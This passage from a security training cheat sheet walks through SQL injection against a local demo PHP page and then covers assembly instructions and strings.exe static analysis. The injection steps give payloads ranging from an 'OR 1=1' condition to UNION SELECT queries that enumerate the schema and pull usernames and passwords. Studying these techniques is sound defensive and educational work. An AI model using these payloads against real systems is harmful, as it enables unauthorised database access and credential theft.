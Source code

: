 #### GET Method with Select Bar

1. Add condition after selection number:
   ```
   http://127.0.0.1:1111/uniondemo.php?Selection=4 OR 1=1
   ```
2. Identify number of columns:
   ```
   selection=4 UNION SELECT 1,2,3
   ```
3. Extract table/column info:
   ```
   UNION SELECT table_schema,table_name,column_name FROM information_schema.columns
   ```
4. Extract credentials:
   ```
   UNION SELECT username,passwd,2 FROM session.userinfo
   ```

---

## 7. Reverse Engineering & Exploit Development

### Assembly Commands

| Command | Description                                       |
|---------|---------------------------------------------------|
| MOV     | Move source to destination                        |
| PUSH    | Push source onto stack                            |
| POP     | Pop top of stack to destination                   |
| INC     | Increment source by 1                             |
| DEC     | Decrement source by 1                             |
| ADD     | Add source to destination                         |
| SUB     | Subtract source from destination                  |
| CMP     | Compare 2 values; ZeroFlag set if equal           |
| JMP     | Jump to specified location                        |
| JLE     | Jump if less than or equal                        |
| JE      | Jump if equal                                     |

### Static Analysis

- **DOS mode**: Windows executable; **ELF**: Linux executable
- Use `strings.exe` to look for clues:
  ```bash
  strings.exe -a -nobanner <filepath> | findstr /i success
  strings.exe -a -n 7 -nobanner .\demo1_new.exe
  strings.exe -a -nobanner .\demo1_new.exe | select -First 10
  ```
